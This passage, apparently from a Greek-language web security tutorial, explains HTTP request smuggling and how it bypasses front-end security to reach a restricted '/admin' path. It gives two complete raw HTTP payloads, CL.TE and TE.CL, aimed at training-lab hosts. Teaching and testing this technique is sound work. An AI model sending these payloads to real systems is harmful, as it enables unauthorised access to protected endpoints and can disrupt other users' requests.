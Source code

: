 * **Προκλήσεις Φορτωτικής Ισορροπίας:** Οι διακομιστές front-end που λειτουργούν ως ισοσταθμιστές φορτίου μπορεί να διανέμουν αιτήματα σε διάφορα συστήματα back-end. Εάν τα "επίθεση" και "κανονικά" αιτήματα καταλήξουν σε διαφορετικά συστήματα, η επίθεση δεν θα επιτύχει. Αυτό το στοιχείο ισοσταθμιστή φορτίου μπορεί να απαιτήσει πολλές προσπάθειες για την επιβεβαίωση μιας ευπάθειας.
* **Ακούσια Επίδραση στους Χρήστες:** Εάν η επίθεσή σας επηρεάσει κατά λάθος το αίτημα άλλου χρήστη (όχι το "κανονικό" αίτημα που στείλατε για ανίχνευση), αυτό υποδεικνύει ότι η επίθεσή σας επηρέασε έναν άλλο χρήστη της εφαρμογής. Η συνεχής δοκιμή θα μπορούσε να διαταράξει άλλους χρήστες, απαιτώντας προσεκτική προσέγγιση.

## Κατάχρηση HTTP Request Smuggling

### Παράκαμψη Ασφαλείας Front-End μέσω HTTP Request Smuggling

Μερικές φορές, οι διακομιστές front-end επιβάλλουν μέτρα ασφαλείας, εξετάζοντας τα εισερχόμενα αιτήματα. Ωστόσο, αυτά τα μέτρα μπορούν να παρακαμφθούν εκμεταλλευόμενα το HTTP Request Smuggling, επιτρέποντας μη εξουσιοδοτημένη πρόσβαση σε περιορισμένα endpoints. Για παράδειγμα, η πρόσβαση στο `/admin` μπορεί να απαγορεύεται εξωτερικά, με τον διακομιστή front-end να μπλοκάρει ενεργά τέτοιες προσπάθειες. Παρ' όλα αυτά, αυτός ο διακομιστής μπορεί να παραλείψει να εξετάσει τα ενσωματωμένα αιτήματα μέσα σε ένα smuggled HTTP αίτημα, αφήνοντας ένα παραθυράκι για την παράκαμψη αυτών των περιορισμών.

Σκεφτείτε τα παρακάτω παραδείγματα που απεικονίζουν πώς το HTTP Request Smuggling μπορεί να χρησιμοποιηθεί για να παρακάμψει τους ελέγχους ασφαλείας front-end, στοχεύοντας συγκεκριμένα τη διαδρομή `/admin`, η οποία συνήθως φυλάσσεται από τον διακομιστή front-end:

**Παράδειγμα CL.TE**
```
POST / HTTP/1.1
Host: [redacted].web-security-academy.net
Cookie: session=[redacted]
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 67
Transfer-Encoding: chunked

0
GET /admin HTTP/1.1
Host: localhost
Content-Length: 10

x=
```
Στην επίθεση CL.TE, η κεφαλίδα `Content-Length` χρησιμοποιείται για το αρχικό αίτημα, ενώ το επόμενο ενσωματωμένο αίτημα χρησιμοποιεί την κεφαλίδα `Transfer-Encoding: chunked`. Ο μεσολαβητής front-end επεξεργάζεται το αρχικό αίτημα `POST` αλλά αποτυγχάνει να ελέγξει το ενσωματωμένο αίτημα `GET /admin`, επιτρέποντας μη εξουσιοδοτημένη πρόσβαση στο μονοπάτι `/admin`.

**TE.CL Παράδειγμα**
```
POST / HTTP/1.1
Host: [redacted].web-security-academy.net
Cookie: session=[redacted]
Content-Type: application/x-www-form-urlencoded
Connection: keep-alive
Content-Length: 4
Transfer-Encoding: chunked
2b
GET /admin HTTP/1.1
Host: localhost
a=x
0

```